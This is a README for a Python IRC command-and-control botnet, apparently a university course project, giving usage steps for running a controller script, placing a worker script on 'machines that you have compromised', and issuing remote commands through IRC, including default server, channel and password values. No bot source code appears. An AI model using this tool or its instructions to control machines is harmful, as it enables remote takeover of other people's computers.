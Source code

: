 # python-botnet
An IRC command & control botnet. Use this to communicate with machines that you have compromised and gained access to.

## How to use
Inside the directory run the command
```
python boss.py
```
Options include:
```
-s server_name
-p port_number
-x password
-c channel_name
```
Now open your favorite IRC chat client and connect to the IRC server (default is 'irc.freenode.net', port 6667), join the given channel (default is #cs460botnet-jlchao2).

In the chat box type:
```
!auth password
```
with whatever password you started boss.py with (default is 'password').

On a compromised machine, run:
```
python worker.py -n *name*
```
with some *name* for the worker.

Now in the IRC client, you can type:
```
!status
```
and see that there is one worker available.

You can send commands for the worker(s) to run:
```
!execute [num-workers] *command*
```
for example
```
!execute run vmstat
```
and view the output with:
```
!print
```
